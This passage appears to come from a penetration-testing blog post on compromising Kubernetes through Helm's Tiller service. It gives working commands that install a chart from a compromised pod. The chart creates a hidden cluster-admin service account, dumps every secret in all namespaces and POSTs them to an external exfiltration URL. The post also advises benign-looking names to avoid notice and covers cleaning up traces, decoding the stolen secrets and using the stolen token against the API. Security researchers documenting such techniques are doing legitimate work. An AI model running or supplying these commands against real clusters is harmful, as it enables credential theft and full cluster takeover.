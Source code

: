  * `name` - the name of the release, job and pod. Probably best to call it something benign looking (e.g. "tiller-deployer")
 * `serviceAccountName` - the name of the cluster-admin service account to create and use (again, use something innocuous looking)
 * `exfilURL` - the URL to POST the token to. Make sure you have a listener on that URL to catch it! (I like using a [serverless function](https://github.com/ropnop/serverless_toolkit/tree/master/datadump) to dump to Slack)
 * `namespace` - defaults to kube-system, but you can override it

When this chart is installed, it will create a new cluster-admin service account, then launch a job using that service account to query for every secret in all namespaces, and dump that data in a POST body back to EXFIL_URL.

Just like above, we can launch this from our compromised pod:

```bash
$ export HELM_HOST=tiller-deploy.kube-system.svc.cluster.local:44134
$ export HELM_HOME=/tmp/helmhome
$ /tmp/helm init --client-only
$ /tmp/helm install --name tiller-deployer \
    --set serviceAccountName="tiller-deployer" \
    --set exfilURL="https://datadump-slack-dgjttxnxkc.now.sh/all_secrets.json" \
    --repo https://ropnop.github.io/pentest_charts exfil_secrets
```

After Helm installs the chart, we'll get every Kubernetes secret dumped back to our exfil URL (in my case posted in Slack)

![slack_all_secrets](/images/2019/01/slack_all_secrets.png)

And then make sure to clean up and remove the new service account and job:

```bash
$ /tmp/helm delete --purge tiller-deployer
```

With the secrets in JSON form, you can use `jq` to extract out plaintext passwords, tokens and certificates:

```bash
cat all_secrets.json | jq '[.items[] | . as $secret| .data | to_entries[] | {namespace: $secret.metadata.namespace, name: $secret.metadata.name, type: $secret.type, created: $secret.metadata.creationTimestamp, key: .key, value: .value|@base64d}]'
```

And searching through that you can find the service account token tiller uses:

![tiller_sa_token_json](/images/2019/01/tiller_secret_json-1.png)


# Using service account tokens
Now armed with Tiller's service account token, we can finally directly talk to the Kubernetes API from within our compromised pod. The token value needs to be added as a header in the request: `Authorization: Bearer <token_here>`

```bash
$ export TOKEN="eyJhb...etc..."
$ curl -k -H "Authorization: Bearer $TOKEN" https://10.7.240.1:443/
```
